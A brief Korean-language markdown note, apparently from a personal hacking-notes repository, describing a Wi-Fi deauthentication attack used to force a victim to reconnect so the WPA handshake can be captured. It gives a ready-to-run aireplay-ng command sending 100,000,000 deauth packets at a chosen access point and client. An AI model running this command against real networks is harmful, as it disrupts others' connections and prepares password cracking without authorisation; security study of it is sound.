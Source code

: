 # hacking attack deauthentication attack - 연결 해제 공격

> wireless 연결을 해제시키는 공격 방법
>
> > handshake 데이터를 얻기 위하여 의도적으로 연결을 해제시키고 희생자가 재연결하기를 기다릴 때 사용할 수 있다.

```sh
# aireplay-ng --deauth [패킷수] -a [접속점_mac주소] -c [클라이언트_mac주소] [인터페이스]

aireplay-ng --deauth 100000000 -a [access_point_macaddress] -c [client_macaddress] wlan0
```

